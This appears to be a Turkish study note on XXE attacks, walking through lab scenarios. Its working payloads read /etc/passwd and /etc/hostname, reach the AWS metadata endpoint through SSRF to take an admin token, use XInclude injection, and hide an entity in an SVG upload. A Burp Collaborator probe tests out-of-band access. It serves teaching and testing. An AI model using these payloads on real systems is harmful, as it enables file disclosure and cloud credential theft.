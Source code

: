 ##### XML: Databaseler arasında veri alışverişi olacağı zamanlarda kullanılan bir dosyadır.

GOOGLE:   
Genişletilebilir İşaretleme Dili (XML), **verileri paylaşılabilir bir şekilde tanımlamanıza ve saklamanıza olanak tanır**. XML, web siteleri, veri tabanları ve üçüncü taraf uygulamaları gibi bilgisayar sistemleri arasında bilgi alışverişini destekler. 


###### Temel bir payload
 ```html
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
Daha sonra aşağıda &xxe; komutunu gömüp çağırıyoruz.

Eğer websitesi AWS kullanıyor ise; 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`

>[!NOTE] XXE AÇIĞI OLDUĞUNU NASIL ANLARIZ?
>`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://u3ygeo8tc2gchugtam2y9d5whnneb3.burpcollaborator.net"> ]>` 
>komutunu girerek anlarız.

---
##### XXE Türleri 
- Dosyaları almak için XXE’den yararlanma

- SSRF Saldırılarını gerçekleştirmek için XXE’den yararlanma

- Bant dışı veri sızdırma işlemi

- Hata mesajları yoluyla verileri almak için kör XXE

##### Dosyaları almak için XXE’den yararlanma

Örnek senaryo bir alışveriş sitesinde bir üründen stok verisi alıyoruz.

`<?xml version="1.0" encoding="UTF-8"?> <stockCheck>`

`<productId>1</productId>`

`<storeId>1</storeId>`

`</stockCheck>`

Kod bloğu şu şekilde olucaktır biz bunu şu şekilde değiştiriyoruz;

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

`<stockCheck>`

`<productId>&xxe;</productId>`

`<storeId>1</storeId>`

`</stockCheck>`


### Kodu Parçalayarak Açıklayalım

`<?xml version=”1.0” encoding=”UTF-8”?>`

Burası xml sürümünü ve karekter setini temsil eder.

`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

Burası ise Doctype kısmı burada ENTITY ile bir varlık oluşturuyoruz ve bu varlığa ise değer olarak etc/passwd değeri atanıyor yani dosya biz ürün stok sayısı olarak aşşağıda xxe çağırdığımızda aslında olucak durum etc/passwd verisini getirtmek.

`<stockCheck> <productId>&xxe;</productId> <storeId>1</storeId> </stockCheck>`

![[Pasted image 20250312235814.png]]
![[Pasted image 20250312235820.png]]

### 2. SSRF Saldırılarını gerçekleştirmek için XXE’den yararlanma

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE test [ <!ENTITY xxe SYSTEM "[http://169.254.169.254/](http://169.254.169.254/)"> ]> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>`

Aynı web sitemizde bu sefer belirtilen ip adresi ile iletişime geçmeye çalışıyoruz ondan , önce yine /etc/passwd okumaya çalıştığımızda yinede okuyabiliriyoruz bu işi daha da yürütmek için yapılan bir işlem.
![[Pasted image 20250312235920.png]]

Dönen yanıt:
![[Pasted image 20250312235935.png]]
burada latest diye dizin keşfediyoruz ve dizinimiz ekliyoruz.
ve yolun sonunda her dönen hatada ki dizini eklersek
![[Pasted image 20250312235952.png]]
bu yola gidiyoruz ve bu şekilde hedef adminin tokenini ele geçirmiş oluyoruz.
![[Pasted image 20250313000002.png]]

### MODERN Web Sitede XML Yapısını Nasıl Dahil Ederiz ?
![[Pasted image 20250313000022.png]]
Burada artık xml yapısı değilde daha gelişmiş bir modern bir web sitesi var buna ise enjeksionu şu şekilde yapabiliyoruz.

`productId=<foo xmlns:xi="<http://www.w3.org/2001/XInclude>"><xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1`

### XXE İLE FİLE UPLOAD!
Örnek senaryomuzda bir ürüne yorum atma özelliği ve görsel ekleme özelliği var buradan yürüyeceğiz,
![[Pasted image 20250313000047.png]]
bilgilerimizi girdik ve avatar dosyamızı yükleyeceğiz kod yapısına bakalım.
![[Pasted image 20250313000103.png]]
ve burayı silip şu kodumuzu yazıyoruz.

`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`

bu kod görsel içerisine hostname yazdırıcak.

ve yorumuzuu paylaştıkdan sonra kendimizi buluyoruz.
![[Pasted image 20250313000118.png]]

Ve görseli açarak hostname buluyoruz.
![[Pasted image 20250313000138.png]]


